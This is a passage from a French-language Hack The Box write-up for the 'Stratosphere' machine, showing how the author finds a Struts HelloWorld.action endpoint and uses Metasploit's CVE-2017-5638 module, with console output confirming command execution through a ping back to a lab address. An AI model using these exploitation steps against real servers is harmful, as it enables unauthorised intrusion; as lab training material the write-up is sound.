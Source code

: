 Une recherche dans *Metasploit* retourne une poignée d'exploits en en regardant les infos détaillées de chaque module on voit parfois une mention à un script *HelloWorld.action*.  

Est-ce un placeholder ou une véritable réféence à un script présent par défaut ? Toujours est-il qu'il y a bien un *HelloWorld.action* sur la machine du challenge :)  

![HTB Stratosphere Equihax Struts](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/stratos_struts.png)

On devine un clin d’œil au hack de la société *Equifax*. Cette dernière a été victime d'une intrusion médiatisée via l'exploitation de la faille dans Struts [CVE-2017-5638](https://www.cvedetails.com/cve/CVE-2017-5638/).  

On s'empresse alors d'utiliser le module *Metasploit* correspondant mais malgré plusieurs payloads de reverse shell utilisés force est de constater qu'on est plutôt limité.  

Pourtant l'exécution de commande fonctionne car on si on se ping on peut voir les messages nous parvenir :  

```plain
msf exploit(multi/http/struts2_content_type_ognl) > show options

Module options (exploit/multi/http/struts2_content_type_ognl):

   Name       Current Setting                        Required  Description
   ----       ---------------                        --------  -----------
   Proxies                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      10.10.10.64                            yes       The target address
   RPORT      8080                                   yes       The target port (TCP)
   SSL        false                                  no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /Monitoring/example/HelloWorld.action  yes       The path to a struts application action
   VHOST                                             no        HTTP server virtual host

Payload options (cmd/unix/generic):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
   CMD                    yes       The command string to execute

Exploit target:

   Id  Name
   --  ----
   0   Universal

msf exploit(multi/http/struts2_content_type_ognl) > set CMD "ping -c 3 10.10.14.209"
CMD => ping -c 3 10.10.14.209
msf exploit(multi/http/struts2_content_type_ognl) > exploit
[*] Exploit completed, but no session was created.
```
